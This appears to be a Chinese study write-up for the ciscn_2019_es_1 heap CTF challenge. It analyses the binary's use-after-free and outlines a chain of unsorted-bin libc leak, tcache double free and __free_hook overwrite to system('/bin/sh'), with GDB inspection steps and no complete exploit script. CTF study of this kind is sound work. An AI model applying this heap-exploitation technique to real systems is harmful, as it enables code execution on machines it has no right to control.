

# ciscn_2019_es_1 — UAF → libc 泄露 → tcache 控制（学习版）

> [!important] 这篇 WP 的边界
> 这是公开 CTF 题的**学习复盘框架**，不是“复制即用 EXP”。附件已于 2026-10-11 到手并完成**静态 + core 核验**（见 `2026-10-11-ciscn_2019_es_1-附件核验与core现场`），本页第 1、2 节的原假设已逐条坐实；但**动态利用链尚未在配套 2.27 环境下跑通**，所以凡是地址、chunk 大小、偏移仍须以你自己 GDB 里的实测为准。核心思路“UAF → unsorted-bin 泄露 → 小块空闲链控制 → 历史 `__free_hook` 触发”现状：**漏洞面已证实，利用面待复现**。

横向辨别三题的漏洞与 allocator 分支差异：`旧版tcache三题对照`。

按视频主题学习而非按 EXP 步骤记忆：`ciscn_2019_es_1_视频知识点索引`。

本题的 C 指针层级通用解释：`结构体与二级指针笔记`。

> [!check] 本轮已核验（2026-10-11）
> - 附件：`ciscn_2019_es_1`（PIE / Full RELRO / Canary / NX，未 strip）+ 配套 `libc-2.27.so`（`2.27-3ubuntu1`，BuildID `b417c0ba…`）+ `glibc227/lib/x86_64-linux-gnu/ld-2.27.so`。
> - `add` 里 `info = malloc(0x18)`、`call` 只 `free(info->name)` 且**不清指针**、`show` 用 `puts` 读旧指针 → **UAF 成立**。
> - 两份 `core` 是**环境错配**现场：进程实际加载的是系统 glibc 2.35，第二次 `free(S)` 被 tcache key 检查拒绝 → SIGABRT；**不是 exploit 逻辑错**。
> - 详细证据、chunk 图与最小复现命令：`2026-10-11-ciscn_2019_es_1-附件核验与core现场`。

## 导读：本页怎么走，背后要哪些知识

> [!tip] 这篇 WP 的位置
> 它是“用一条公开路线复习一堆前置知识”的复盘框架，不是独立教程。直接跳到第 3–5 节会碰到大量名词落差；建议先按下面的依赖图确认自己缺哪一层，再回到正文按阶段验证。

### 知识依赖图：先补前置，再谈利用



### 视频内容分类地图（按主题记，不按操作步骤记）

```text
主题 A：程序对象模型 ───── table → info → name；一项记录为何会申请两次堆
主题 B：UAF 漏洞 ───────── free 的是对象，不是指针变量；show 为什么还能读旧地址
主题 C：Unsorted bin ───── 大块释放后用户区为何出现 main_arena 指针；何为 libc 泄露
主题 D：Tcache ─────────── 空闲小块为何像单链表；entries 与 count 分别表示什么
主题 E：旧版 hook ──────── 函数指针格子、ABI 首参数、free(p) 与 system(p) 的关系
主题 F：版本与环境 ─────── 为什么同一段讲解在 2.35 失败；loader、libc 与运行时 mapping
主题 G：证据与复盘 ─────── 哪些结论可由 IDA/GDB 证明，哪些只是公开路线的假设
```

> [!note] 关于“按视频内容”
> 当前知识库只保存了 B 站**搜索页**，没有可核验的单一 BV 链接或时间轴。因此上面的主题按本题公开视频通常会出现的内容来组织，但不把任何具体主播的口述、地址或结论写成事实。拿到视频链接后，只需在每个主题标题下补上时间戳，而不用重写知识结构。

### 背后知识索引

| 层 | 背后知识 | 页面 | 它回答本题的哪一问 |
|---|---|---|---|
| 语言 | 指针变量的值 ≠ 它指向的对象 | `C语言内存与指针` | `free(table[i]->name)` 为什么清不掉 `table[i]->name` 本身 |
| 堆机制 | chunk 结构、`user_ptr = p+0x10`、size 低 3 位标志 | `堆利用基础` | 为什么观察 header 要从 `p-0x10` 开始 |
| 堆机制 | UAF 的定义与能力分级 | `UAF详解` | 为什么“能 show 旧 name”只是候选读原语，不等于任意写 |
| 堆机制 | 同一地址再次 free 会发生什么 | `Double_Free详解` | 两次 `delete(1)` 到底改变了哪条链、哪个计数 |
| 堆机制 | tcache 的 entries / counts、LIFO、2.27 无 key | `Tcache_Attack` | 为什么 `S → S` 自环后第三次 add 会拿到目标槽 |
| 堆机制 | Safe-Linking 对 `next` 的编码 | `Safe_Linking` | 为什么 2.32+ 不能再写裸地址 |
| 堆机制 | unsorted bin 的 fd / bk 指向 arena | `Unsorted_Bin_Attack` | 大块 free 后 show 为什么能读出 libc 内地址 |
| 地址 | ASLR 让地址每次都不同 | `ASLR详解` | 为什么必须先泄露、后计算 |
| 地址 | 模块内偏移与基址 | `偏移量` | `libc.sym['__malloc_hook']` 是什么，凭什么能减 |
| 地址 | 原始字节 → 地址的解析与验证 | `信息泄露与地址解析` | `recvn(6).ljust(8)` 在做什么，页对齐为什么只算初筛 |
| 地址 | 从泄露反推 libc 版本 | `libc版本识别` | 远程没有 GDB 时，怎么确认本地 `glibc227` 选对了 |
| 版本 | 版本负责筛选路线 | `glibc版本化堆漏洞索引` | 拿到版本后先排除哪些写法 |
| 版本 | 2.26 / 2.29 / 2.32 / 2.34 四个里程碑 | `glibc版本差异` | 为什么“2.27”不等于“所有叫 2.27 的库都一样” |
| 版本 | 附件核验清单 | `堆版本验证清单模板` | 下载附件后要填哪几行才算有证据 |
| 环境 | loader / libc 配对与可逆修补 | `patchelf换libc` | 为什么 `ELF('./libc-2.27.so')` 不等于换了运行环境 |
| 环境 | 本地环境怎么搭 | `环境搭建` · `本地环境验证记录模板` | 本地要复现远程，最少需要哪几个文件 |
| 终点 | 旧 hook 的调用点与参数语义 | `__free_hook劫持` | 为什么 `free("/bin/sh")` 会近似变成 `system` |
| 终点 | 候选入口的约束 | `one_gadget` | 公开 WP 写 one_gadget 时，为什么不能照抄偏移 |
| 工具 | GDB / pwndbg 的 `bins`、`vis_heap_chunks` | `GDB与Pwndbg入门` | 每一步“该观察什么” |
| 联调 | EXP 与 GDB 双终端配合、断点与检查点 | `#10. GDB 联调：两终端与证据检查点` | EXP 等待、GDB 停住时如何判断谁在等谁 |
| 工具 | pwntools 收发的语义 | `pwntools使用指南` · `PWN输入输出与协议同步` | `recvuntil(b'name:\n')` 和 `recvn(6)` 为什么这么配 |
| 工具 | pwntools 的常见坑 | `pwntools常见坑` | 为什么 6.1 要把 name 填满 read 的长度 |
| 流程 | 脚本模板与验收清单 | `Exploit脚本模板库` · `PWN脚本模板与验证清单` | 把候选脚本改造成“每一步都有证据”的脚本 |
| 导航 | 三题的横向差异 | `旧版tcache三题对照` | 同一批术语在三题里各自意味着什么 |
| 导航 | 同类原语的其它页面 | `堆专题索引` | 换题时该翻哪一页 |

### 两条最短路径

```text
补前置：  堆利用基础 → UAF详解 → Tcache_Attack
          → 本页 0–2 节 → Unsorted_Bin_Attack → 本页 3–4 节
          → __free_hook劫持 → 本页 5 节

有附件后：堆版本验证清单模板 → patchelf换libc → 本页 6.0–6.0.2
          → 用 GDB与Pwndbg入门 的 bins / vis_heap_chunks 收集证据
          → 按 PWN学习工作流与模板 写 Research Log
```

> [!warning] 索引不改变等级
> 本页仍是 L1：题目附件、配套 glibc 2.27 与 loader 已有静态/core 核验记录；但**在配套 2.27 环境中的动态利用链和 GDB 复现仍未完成**。补齐前置知识只说明“能读懂这篇复盘”，不构成 `PWN学习档案` 里的升级证据；要升级得走第 7 节的 Test B。

## 0. 这题练什么

一句话：程序 `free` 了一个 name chunk，却仍把它的指针留在表里；`show` 还能读它，后续申请又可能重用它。于是同一块内存先能泄露 libc 指针，再能影响旧版 tcache 的下一次分配位置。

```text
delete 后指针仍保留
        │
        ├─ show 读到已释放大块的 fd ──> 得到 libc 内地址 ──> 算 libc base
        │
        └─ 重复 delete / 重用小块 ──> 影响 tcache 链 ──> 申请到可写目标
                                                          │
                                             旧版：__free_hook ← system
                                                          │
                                              free(指向 "/bin/sh" 的 chunk)
```

这里的关键不是记住 `__free_hook`，而是逐步回答：**哪一个指针悬空？哪一次 free 真进入哪个 bin？show 实际打印了谁？下一次 malloc 为什么会返回目标位置？**

> [!tip] 先把四种“地址”分开
> `table[i]` 保存的是 **info 的地址**；`info->name` 保存的是 **name user pointer**；释放后 name 用户区开头的 `fd/next` 又可能保存第三个地址；由泄露反推的 `libc base` 是第四个量。`p`（地址）和 `*(uint64_t *)p`（该地址处的内容）必须分开看。

### 0.1 这份脚本里实际出现的对象

这一节只解释**脚本里每个对象是什么、为什么它有学习价值**；具体菜单顺序、完整脚本和环境验证放在后文的 WP 区，不在这里重复写成步骤。

把三个 `name` 堆块先抽象成三种角色：

```text
table[0] ──> info0 ──> A：0x410 大 name
table[1] ──> info1 ──> S：0x60 小 name
table[2] ──> info2 ──> SH："/bin/sh\x00"
```

| 对象 | 它教什么 | 为什么不是可随便替换的数字/字符串 |
|---|---|---|
| A：大 `name` | **UAF 泄露与 unsorted bin** | 在目标旧版 allocator 中，大块释放后可携带指向 `main_arena` 的管理指针；程序若仍打印旧指针，才可能把这个指针泄露出来。 |
| S：小 `name` | **tcache 单链表与 double free** | `0x60` 是用户请求大小；64 位 glibc 通常把它规格化到 0x70 size class。早期 2.27 的特定构建可能允许同一块在该链表中重复出现。 |
| SH：`"/bin/sh\x00"` | **函数指针调用与 ABI 参数** | 它不是“魔法字符串”：旧 hook 模型中若 `free` 转而调用 `system`，`free` 原来的首参数仍会作为 `system` 的首参数传递。 |

这三个角色构成的概念图是：

```text
悬空的 A 指针
   │
   └── show 仍读取已释放用户区 ──> 观察 allocator 留下的 libc 指针

重复引用的 S
   │
   └── 同一份 user area 被 allocator 多次交给程序 ──> 研究 tcache 链表为什么会失真

SH 指向的字符串
   │
   └── 验证 free(p) 经旧 hook 后仍保留 p 这个参数 ──> system(p) 的参数语义
```

早期 2.27 的重复引用现象，在内存结构上可抽象为：

```text
tcache[0x70] ──> S ──> S ──> S ...
```

它要表达的是：**allocator 的链表字段本来存在已释放块的用户区；一旦程序还持有这个块的旧指针，原本只属于 allocator 的内部状态就会变成可观察、甚至可破坏的对象。** 这才是 UAF 与旧版 tcache 题的共同核心，不是“连续申请几次”的模板。

`"/bin/sh\x00"` 放在 `name` 中的原因也只是数据流：本题 `call()` 传给 `free()` 的是 `info->name`，不是 `compary call` 字段。若旧 hook 的目标被改为 `system`，这个同一个指针才会成为 `system` 的参数。

> [!warning] 这张图的版本前提
> 同一块进入 tcache 两次的现象只适用于题目所需的早期 2.27 行为。若日志出现 `free(): double free detected in tcache 2`，先按 `环境判断` 检查实际 loader/libc；不是重试、也不是改 `0x70`。

### 0.2 这题背后的知识点索引

下面不是“名词表”，而是你看视频或读脚本时实际会遇到的知识。画面卡在哪个主题，就只补对应一项，再回到原内容。

| 知识点 | 人话解释 | 它在本题中的现象 | 去哪里补 |
|---|---|---|---|
| 指针与对象生命周期 | `free(p)` 只归还 `p` 指向的内存，不会把程序变量里的 `p` 自动改成 `NULL` | `call` 后的 `info->name` 仍保存旧地址，`show` 才会读到已释放区 | `UAF：指针和对象分开看` |
| chunk 与请求大小 | `malloc(0x60)` 的“用户请求”会被 allocator 规格化；64 位常见结果是 0x70 大小的 chunk | `0x410` 与 `0x60` 表示不同 allocator 分支，不是任意填充长度 | `chunk、header 与请求大小` |
| bin 与 guard chunk | `free` 后的 chunk 去哪里由大小、邻居、版本决定；guard 阻止相邻大块被合并 | A 的价值在于观察 unsorted 管理指针，S 的价值在于观察 tcache | `free 后的 bin 路线` |
| UAF 读 | allocator 接管已释放 user area 后，会把 `fd/next` 等管理数据写在那里；旧 `show` 把它打印出来 | A 的用户区不再是原 name，而可能变成 libc 管理指针 | `为什么 UAF 能泄露` |
| tcache LIFO 与旧 tcache dup | tcache 像按大小分类的单链表；早期构建缺少后来的检查，重复 free 可让同一 S 出现两次 | S 的 `next` 字段与同一块重复出现，是“重复引用”的内存模型 | `tcache 链怎样变化`、`double free 的前提` |
| libc 泄露与基址 | 泄露到的是“libc 内的一个地址”；减去同一 libc 中该位置的偏移，才得到 base | `main_arena` 附近的地址是定位 libc 的坐标，而非最终目标 | `libc泄露偏移定位` · `先确认 libc，再算 base` |
| `__free_hook = system` | 旧 libc 的 `free` 有一条间接调用分支；把 hook 格子写成 `system` 后，`free(p)` 近似变成 `system(p)` | SH 说明“函数指针正确”还不够，参数 `p` 也必须指向正确字符串 | `hook 为什么需要函数和参数同时正确` |
| loader / 本地与远程 | `ELF(libc)` 只是读符号；本地进程实际加载谁取决于 loader，远程则不能由本地替换 | 同样的 UAF 在不同 glibc 构建上会出现“可重复引用”或“检测终止”的不同结果 | `加载库验证`、`每题版本收据` |

### 0.3 读懂反编译的指针表达式与负索引

本题反编译代码可能把访问写成：

```c
**((const char ***)&heap_addr + v1)
```

先看图，再数星号：

```text
全局表槽 heap_addr[v1]
   │ 第一次读取槽
   ▼
Company 结构体地址
   │ 第二次读取结构体首字段
   ▼
name 字符串地址
   │ 若再读取一次
   ▼
name[0]，一个字符
```

拆成中间变量更容易读：

```c
const char ***base = (const char ***)&heap_addr;
const char **info_as_pointer_to_pointer = *(base + v1); // 读表槽
const char *name = *info_as_pointer_to_pointer;          // 读 info 首字段
```

在这道 x86-64 题里，`heap_addr` 的每个槽是 8 字节，所以 `base + v1` 等于从表起始地址移动 `v1 * 8` 字节。转换中的 `***` 只描述类型；真正发生的两次读取是表达式最外面的两个一元 `*`。更符合真实结构定义的写法是：

```c
Company *info = heap_addr[v1];
const char *name = info->name;
puts(name);
```

| 表达式 | 读到哪一层 | 结果 |
|---|---|---|
| `((const char ***)&heap_addr + v1)` | 没解引用 | 表中第 `v1` 个槽的地址 |
| `*((const char ***)&heap_addr + v1)` | 一次 | 表槽里的结构体地址 |
| `**((const char ***)&heap_addr + v1)` | 两次 | 结构体首字段 `name` 的地址 |
| `***((const char ***)&heap_addr + v1)` | 三次 | `name` 指向的第一个字符，不再是字符串指针 |

这是一种按本题真实内存布局解读 IDA 伪代码的办法，不能反过来证明强转后的表达式是类型安全的 C 源码。IDA 的类型推断可能很粗糙；应结合 `malloc(0x18)`、对偏移 `+0` 的 8 字节读写，以及 `puts` 参数来源来确认 `Company.name`。

#### `show(-1)` 到底读什么

本题是 PIE，下面只用 `T = (char *)&heap_addr` 表示**当前进程中的表起始地址**，不把某次运行的地址写死。数组槽宽 8 字节，因此 `show(-1)` 访问的是 `T - 8` 处的前一个 qword：

```text
低地址                                                高地址
      [T-8：表前一个 qword] [T：heap_addr[0]] [T+8：heap_addr[1]] ...
             ↑ show(-1)          ↑ show(0)
```

这不是 Python 的 `list[-1]`，不会自动取最后一个元素。若本题 `show` 的索引边界检查缺失/写错，负数可能进入 `heap_addr[index]` 访问；但越界只说明访问了表外位置，**并不保证那个 qword 是可用结构体指针**：

| 表前 qword 的内容 | 后续可能结果 |
|---|---|
| `0` | `if (heap_addr[-1])` 为假，跳过 name/phone 输出；通常不崩 |
| 非零但不是可读对象地址 | 读取结构体首字段时可能 SIGSEGV |
| 指向可读且布局兼容的对象 | 才可能继续读 `name`，但 `puts` 仍按字符串读到 `\0`，不等同于任意 8 字节泄露 |

检查本地实例时先查 PIE 运行时符号，再观察表前内存；不要直接使用公开文章里的 `0x404080`：

```gdb
p/x &heap_addr
x/4gx (char *)&heap_addr - 0x10
set $prev = *(unsigned long *)((char *)&heap_addr - 8)
p/x $prev
```

只有当 `$prev` 非零并确认它落在当前进程可读映射后，才继续检查：

```gdb
info proc mappings
x/3gx $prev
set $name = *(unsigned long *)$prev
p/x $name
x/s $name
```

请把这些视为**调试时观察目标二进制的地址行为**，不是无检查访问的安全 C 写法。`show(0)` 在 `free(name)` 后读旧指针属于 UAF；`show(-1)` 是全局表越界读；`Free(1)` 连续释放同一 name 才是 double free。它们是不同原语。本题更可靠的 libc 泄露路线是先让大 name chunk 进入目标版本的 unsorted 路径，再通过仍保留的 name 指针观察其管理数据；`show(-1)` 的结果依赖碰巧位于表前的内存，不应作为默认利用路线。

#### 为什么本题公开路线可以使用早期 glibc 2.27

“2.27 可以解”说的是**本题配套的早期 Ubuntu glibc 2.27 构建满足这条旧利用链的前提**，不是所有名为 2.27 的 libc 都必然一样，也不是仅凭版本号就能宣布 EXP 成功。本题附件记录的库为 `2.27-3ubuntu1`；`call` 释放 name 后不清空指针，因而 UAF/重复释放入口存在。该早期 tcache 有 tcache，但没有后来用于重复释放检测的 `e->key` 路径；该版本的普通 `free` 路径也仍会消费 `__free_hook`。因此在匹配 loader/libc 且堆状态符合预期时，公开路线可以把问题串成：

```text
name 的悬空指针
   ├─ 大块：free 后 show 观察 unsorted 管理指针 → 定位 libc
   └─ 小块：旧版 tcache dup → 控制后续分配目标 → 写旧 __free_hook
                                                   ↓
                                     free(name="/bin/sh") → system(name)
```

2.27 自 2.26 代际起包含 tcache；后续版本加入重复释放检测与 Safe-Linking 等防护，2.34 起 malloc/free 主路径不再像旧版那样调用这些 hooks。可对照 [glibc 2.27 原始 malloc.c](https://github.com/bminor/glibc/blob/glibc-2.27/malloc/malloc.c) 中 tcache entry、`tcache_get` 与 `__libc_free` 相关实现。具体发行版可能有回补，因此必须核对**实际附件 Build ID、实际 loader 和进程映射**。本题现有 core 证明此前一次失败进程实际用了 Ubuntu glibc 2.35，而不是附件 2.27；现有记录仍没有证明完整利用链已在配套 2.27 下动态跑通。版本与 core 证据见 `2026-10-11-ciscn_2019_es_1-附件核验与core现场`；tcache 分代细节见 `glibc版本差异` 与 `Tcache_Attack`。

> [!warning] 本节的结论边界
> 早期上游 2.27 源码和本题附件支持“这条旧路线有机会成立”；发行版可能回补、不同构建可能有差异。最终仍须用配套 loader 启动，检查 `info sharedlibrary`/`/proc/<pid>/maps`，并单独验证 double-free 预检、unsorted leak 和 hook 写入。此处是源码与静态附件证据，不是本机 exploit 成功记录。

## 1. 题目画像：先自己确认，不先看 WP

拿到附件后先填：

```text
ELF：
架构：
RELRO / Canary / NX / PIE：
题给 libc / ld：
菜单：create / show / delete 分别接受什么参数：
可控对象：name？phone/call？还是整个结构体？
```

建议第一轮只做下列检查：

```bash
file ./ciscn_2019_es_1
checksec ./ciscn_2019_es_1
readelf -lW ./ciscn_2019_es_1     # 看 loader
readelf -dW ./ciscn_2019_es_1     # 看依赖与 rpath
```

> [!warning] 不要把“公开 WP 用 2.27”当结论
> 对该题的公开材料既出现过“2.27”也出现过“2.29”的表述。后续能不能按旧 tcache double-free / `__free_hook` 路线做，只由你下载的 libc、实际 `free` 路径和运行时观察决定。环境核验格式见 `附件收据`。

### 1.1 先把它当作“两层对象”，不要当成一块 name 内存

多篇公开反编译资料都把一项记录描述成：全局表先保存一块小的 **info 结构体**，结构体里面再保存 `name` 的堆指针、size 和另一段用户信息。其中一篇复盘推导这块固定结构体请求为 `0x18`，并把字段解释为 `name` 指针、size、phone；这很适合当“读反编译时的假设”，但字段偏移、结构体大小、菜单名称仍必须以附件为准。

```text
table[i]
   │
   ▼
+-------------------------+       +------------------------+
| info 结构体              |       | name chunk             |
|                           |       | 用户输入的 name bytes   |
| name 指针 ────────────────┼──────>+------------------------+
| size / phone 等字段       |
+-------------------------+
```

所以一次“新增”往往不是只 `malloc(name_size)`，而是至少发生两件事：

```text
malloc(info)       ← table[i] 保存的是这块地址
malloc(name_size)  ← info->name 保存的是这块地址
```

这张图能避免一个最常见的误会：**后面的 delete 可能只 free `name`，并没有 free info 结构体。**因此 `table[i]` 还有效，程序就还能沿着它找到那根旧的 `name` 指针。

> [!success] 本附件实测（2026-10-11）：请求大小是 `0x18`
> 反汇编 `add` 可见 `info = malloc(0x18)`，字段排布为 `name(+0)` / `size(+8, int)` / `phone(+0xc, 0xc 字节)`；`table[i]` 保存的确实是 **info 指针**。所以上面「两层对象」的猜想在本题**成立**：一次 add = `malloc(0x18)` + `malloc(size)` 两次分配。证据与完整反汇编结论：`2026-10-11-ciscn_2019_es_1-附件核验与core现场`。

### 1.2 把菜单翻译成“它动了哪一块内存”

先不背具体菜单数字，只做这张对应表。附件到手后把真实函数名、输入长度和 index 检查填进去：

| 操作 | 人话 | 堆上的变化 | 最该观察什么 |
|---|---|---|---|
| add / create | 新建一项资料 | 新 info + 新 name chunk | 两次 `malloc` 的返回地址和请求 size |
| show | 沿 `table[i] → info → name` 打印 | 正常情况下只读 name | 它是 `puts` / `printf("%s")` 还是定长输出？ |
| call / delete | 回收 name | `free(info->name)`，但 info 仍可能活着 | `free` 后 `info->name` 是否被写成 NULL？ |
| 其他输入 | 写 phone / 备注等字段 | 可能只改 info 内的一小段 | 能否影响 name 指针、size 或 freed user area？ |

> [!success] 本附件实测（2026-10-11）：这张表可以填满了
> 真实菜单字符串是 `1.Add a 996 info` / `2.Show info` / `3.Call that 996 compary!` / `4.I hate 996!`；程序里还有一句 **`I hate 2.29 , can you understand me?`**（题面自己在暗示版本）。填表结果：
>
> | 操作 | 实际实现 | 关键点 |
> |---|---|---|
> | `add` | `info=malloc(0x18)`；`scanf("%d",&size)`；`info->name=malloc(size)`；`read(0, info->name, size)`；`read(0, info+0xc, 0xc)` | name 是**定长 `read`**，不补 `\x00`；size 由你给 |
> | `show` | `puts("name:"); puts(info->name); puts("phone:"); puts(info+0xc)` | 纯 `puts`，遇 `\x00` 截断 → 泄露正是靠它 |
> | `call`（delete） | `free(info->name)`，**后面没有 `info->name = NULL`** | 悬空指针直接留下 → **UAF 成立** |
> | 上限 | `if (heap_number > 12) { puts("Enough!"); exit(0); }` | 最多 13 项（0..12） |
>
> 另有边角行为：`call` 的 index 检查写成 `if (idx < 0 && idx > 12) exit(0)`，对负数**恒不成立**，负下标会通过检查去读 `table[idx]`（`table` 与 `heap_number` 在 `.bss` 相邻）。本轮未展开。

用一段**仅用于理解本附件内存布局**的伪 C 表示：

```c
struct Company {
    char *name;
    int size;
    char phone[12];
};

struct Company *heap_addr[MAX];

// 每次 add：heap_addr[i] 指向 Company，Company.name 再指向 name 缓冲区
```

这还不是“已经可利用”的结论。它只解释为什么后续 `show(i)`、再次 `remove(i)` 或某个 edit 菜单仍有机会碰到同一个旧地址。

#### `add()` 逐行拆解：IDA 的长表达式还原成人话

先看这段函数的整体顺序：

```text
检查数量 → 申请 Company 结构体 → 读 name 长度
        → 申请 name 缓冲区 → 读 name 字节
        → 读 phone 字节 → 末尾补 NUL → 数量加一
```

把 IDA 中关键语句和更易读的**等价意图**放在一起：

| IDA 伪代码 | 按本题布局理解 | 这一步产生什么 |
|---|---|---|
| `if (heap_number > 12) ...` | 若当前编号大于 12，则退出 | 若从 0 开始且每次成功后加一，允许编号 0～12；“13 项容量”还要和真实全局数组大小核对 |
| `v1 = heap_number` | 暂存当前编号 | 这段伪代码后面又直接用 `heap_number` 作索引，且函数末尾前没有递增；因此普通单线程路径下数值相同。`v1` 可能是反编译器保留的局部变量，不要把它误认为又一层堆对象 |
| `*((_QWORD *)&heap_addr + v1) = malloc(0x18)` | `heap_addr[v1] = malloc(0x18)` | 第一次 `malloc` 创建 24 字节 `Company`，把返回地址写进全局表槽 |
| `scanf("%d", size)` | 从文本输入解析一个十进制 `int` | 例如输入字符 `24`，解析值是十进制 24，即 `0x18` 字节；不是输入二进制整数 24 |
| `*(_DWORD *)(heap_addr[...] + 8) = size[0]` | `heap_addr[i]->size = n` | `+8` 是结构体内按字节算的字段偏移；`_DWORD` 表示这里写 4 字节，不是把 `Company *` 前进 8 个结构体 |
| `v2 = (void **)heap_addr[...]`; `*v2 = malloc(LODWORD(size[0]))` | `info->name = malloc((unsigned int)n)` | 第二次 `malloc` 创建独立的 name 缓冲区，并把它的地址写入结构体首字段 `+0` |
| `read(0, **((void ***)&heap_addr + heap_number), LODWORD(size[0]))` | `read(0, info->name, (unsigned int)n)` | 从标准输入把最多 `n` 字节写到 name 缓冲区；返回值被忽略，也不会自动补 `\0` |
| `read(0, (void *)(heap_addr[...] + 12), 0xC)` | `read(0, info->phone, 12)` | 从 `Company+0x0c` 写 12 字节电话字段 |
| `*(_BYTE *)(heap_addr[...] + 23) = 0` | `info->phone[11] = '\0'` | 覆盖 phone 字段最后一个字节，保证这段 12 字节区域以 NUL 结束 |
| `++heap_number` | `heap_number++` | 当前 add 完成，下一次使用下一个表槽 |

这里最绕的两条指针表达式可以直接还原：

```c
*((_QWORD *)&heap_addr + i) = malloc(0x18);
//          表槽地址 + i * 8 → 写入 Company *

**((void ***)&heap_addr + i)
// 表槽地址 + i * 8 → 读出 Company * → 再读 Company 的第一个字段 name
```

这两种写法是针对 x86-64 反编译结果的读法；优先把真实意图写成 `heap_addr[i]` 和 `heap_addr[i]->name`，不要照抄强转后的伪 C。指针层级通解见 `C语言结构体与二级指针#反编译里的多层 `*`：先看类型，再数真正的解引用`。

#### IDA 局部变量类型要谨慎读

伪代码显示：

```c
int v1;
void **v2;
size_t size[5]; // BYREF
unsigned __int64 v4;
```

这些名字和声明是反编译器根据寄存器、栈槽、访问宽度推出来的，不一定是原始源码的真实变量声明。特别是 `size_t size[5]`：`BYREF` 说明它的地址传给了 `scanf`；格式串是 `%d`，所以 `scanf` 按 `int *` 写入首地址处的 4 字节。后面的 `LODWORD(size[0])` 也只取低 32 位。不能因为 IDA 标了 `size_t[5]` 就认为这次输入写了 5 个 `size_t`，或直接把 `n` 当 64 位值。

`v4 = __readfsqword(0x28)` 与函数末尾再次读取 TLS 值、再和 `v4` 做 XOR，是栈保护 Canary 的典型反编译表现；它通常用于检查函数期间保存的 Canary 是否被改动，不代表 `add()` 真想返回一个有业务意义的 XOR 数值。最终仍以函数尾部汇编是否比较结果并在不匹配时调用 `__stack_chk_fail` 为准。

`scanf("%d", size)` 也没有显式检查输入是否为非负、合理的长度。本节先按正常正数理解；负数或极大值会牵涉有符号解析、低 32 位转换、`malloc` 失败及 `read` 长度等问题，应单独沿实际汇编和返回值验证，不能直接当作已成立的利用点。

结构体在本附件中的字段布局：

```text
Company 起始地址 C
C+0x00 .. C+0x07   name 指针（8 字节） ──────> 独立 name chunk
C+0x08 .. C+0x0b   size（4 字节 int）
C+0x0c .. C+0x17   phone[12]（最后 phone[11] 被写成 0）
```

因此 `add()` 每次是**两次申请、两次输入阶段**，而不是一次申请一个连续对象：

```text
heap_addr[i] ──> Company chunk（0x18 请求）
                     ├─ +0x00 name ──> name chunk（请求 n）
                     ├─ +0x08 size
                     └─ +0x0c phone[12]
```

> [!warning] 观察输入时别把请求长度当成实际读入长度
> `read(0, name, n)` 最多读取 `n` 字节，可能短读；本函数没有检查返回值，也没有给 name 末尾补 NUL。若本地实验想确认实际写入，记录 `read` 返回值并用 `x/..bx name` 看原始字节。`phone` 的最后字节会被单独写成 NUL；这不意味着 name 也有终止符。

#### 用 GDB 把两次 `malloc` 对上

在配套 Linux VM 中调试当前 ELF 时，先从函数入口看本次运行的反汇编；不要照抄别的运行的地址：

```gdb
gdb -q ./ciscn_2019_es_1
(gdb) break add
(gdb) run
(gdb) disassemble /r add
```

在输出中找到两条 `call malloc` 的**实际指令地址**，分别在该地址下断点，再 `continue` 到断点。停在 `call` 指令上时，x86-64 SysV 下第一次调用的 `rdi` 应是 `0x18`；执行 `ni` 越过这条调用后，`rax` 是新 `Company` 地址。第二次调用前，`rdi` 应是输入的 name 请求长度；越过调用后，`rax` 是 name 用户指针。每次都以当前 GDB 反汇编地址为准，不要把下面的占位符直接输入 GDB：

```gdb
# 将 <第一次 call malloc 的地址> 替换成 disassemble 输出的地址
(gdb) break *<第一次 call malloc 的地址>
(gdb) continue
(gdb) p/x $rdi                 # 预期 0x18
(gdb) ni                       # 执行 malloc 调用
(gdb) p/x $rax                 # 新 Company 指针

# 对第二条 call malloc 重复设置断点、continue、检查 rdi、ni、检查 rax
```

函数中间可能还有 `puts` 等调用；不要在这些调用前误把 `rdi` 当成 `malloc` 的 size。每次先确认当前停在反汇编中的哪条指令。随后可以检查全局表槽、结构体字段和 name 数据：

```gdb
(gdb) p/x &heap_addr
(gdb) x/4gx &heap_addr         # 看全局表槽（槽宽 8 字节）
